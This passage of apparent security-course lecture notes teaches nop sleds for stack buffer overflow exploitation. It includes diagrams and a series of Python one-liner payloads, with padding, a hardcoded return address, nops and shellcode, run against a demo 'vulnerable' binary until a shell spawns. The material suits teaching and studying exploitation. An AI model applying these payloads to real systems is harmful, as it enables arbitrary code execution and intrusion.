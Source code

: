 Without the gdb code, everything get's shifted up the stack, but the
value we are overwriting the return address to is now point to the same
old place where the shell code *used* to be. It is now somewhere else.

The primary way to correct this is to add nops to shift the stack space
around. A nop (read no-operation) is a special instruction that does
nothing. The byte code for nop is 0x90. With nops Well shift the address
space like so:

``` {.example}

    without nops           with nops         

  .------------.         .------------.
  |            |         |            |
  :            :         :            :

  :            :         :            :
  |            |         |            |
  | shell code |         | shell code |
  | padding    |         | nop        |
  | ret addr   |--.      | nop        |
  :            :  |      | nop        |
                <-'      | nop        |<-.
                         | padding    |  |
                         | ret addr   |--'
```

The sequenences of nops form a "nop sled." If control jumps anywhere
within the nop sled, we'll do a bunch of no operations until we reach
the shell code. Our exploit will look like this:

``` {.example}
                                             .-----------------------.
                                             |                       | 
                                             |                       v
   ./vulnerable 5 <--------padding-----><address-of-nopsled><padding><nop-sled><shell code>
```

How many nop's do we add? It doesn't matter, but we can try and see.

``` {.example}
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4 + '\x90'*0x10 + sh+'\x00'"`
Segmentation fault (core dumped)
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4 + '\x90'*0x20 + sh+'\x00'"`
Illegal instruction (core dumped)
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4 + '\x90'*0x30 + sh+'\x00'"`
Illegal instruction (core dumped)
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4 + '\x90'*0x40 + sh+'\x00'"`
Illegal instruction (core dumped)
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4 + '\x90'*0x50 + sh+'\x00'"`
$ 
```

After 0x50 nop's our return address hits the sled, and BOOM, we got a
shell.

